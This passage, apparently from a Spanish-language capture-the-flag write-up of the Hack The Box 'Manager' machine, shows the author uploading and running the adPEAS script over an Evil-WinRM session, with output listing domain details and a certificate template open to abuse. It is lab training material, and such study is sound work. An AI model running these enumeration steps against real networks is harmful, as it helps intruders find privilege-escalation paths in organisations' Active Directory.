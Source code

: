 Una vez que lo tengas, cárgalo a la sesión de **Evil-WinRM**.

Ya sabes que hay 2 formas de hacerlo, yo lo cargué usando **Evil-WinRM**:
```batch
*Evil-WinRM* PS C:\Users\Raven\Documents> upload adPEAS/adPEAS.ps1
                                        
Info: Uploading ../content/adPEAS/adPEAS.ps1 to C:\Users\Raven\Documents\adPEAS.ps1
                                        
Data: 4655524 bytes of 4655524 bytes copied
                                        
Info: Upload successful!
```

Ya dentro, lo cargamos como un módulo y lo ejecutamos:
```batch
*Evil-WinRM* PS C:\Users\Raven\Documents> Import-Module .\adPEAS.ps1
*Evil-WinRM* PS C:\Users\Raven\Documents> Invoke-adPEAS

               _ _____  ______           _____
              | |  __ \|  ____|   /\    / ____|
      ____  __| | |__) | |__     /  \  | (___
     / _  |/ _  |  ___/|  __|   / /\ \  \___ \
    | (_| | (_| | |    | |____ / ____ \ ____) |
     \__,_|\__,_|_|    |______/_/    \_\_____/
                                            Version 0.8.24
                                                                                                                                                                                                                 
    Active Directory Enumeration
    by @61106960

    Legend
        [?] Searching for juicy information
        [!] Found a vulnerability which may can be exploited in some way
        [+] Found some interesting information for further investigation
        [*] Some kind of note
        [#] Some kind of secure configuration


[?] +++++ Searching for Juicy Active Directory Information +++++                                                                                                                                                 

[?] +++++ Checking General Domain Information +++++                                                                                                                                                              
[+] Found general Active Directory domain information for domain 'manager.htb':
Domain Name:                            manager.htb
Domain SID:                             S-1-5-21-4078382237-1492182817-2568127209
Domain Functional Level:                Windows 2016
Forest Name:                            manager.htb
Forest Children:                        No Subdomain[s] available
Domain Controller:                      dc01.manager.htb

[?] +++++ Searching for Vulnerable Certificate Templates +++++                                                                                                                                                   
adPEAS does basic enumeration only, consider using https://github.com/GhostPack/Certify or https://github.com/ly4k/Certipy

[?] +++++ Checking Template 'SubCA' +++++                                                                                                                                                                        
[!] Template 'SubCA' has Flag 'ENROLLEE_SUPPLIES_SUBJECT'
Template Name:                          SubCA
Template distinguishedname:             CN=SubCA,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=manager,DC=htb
```
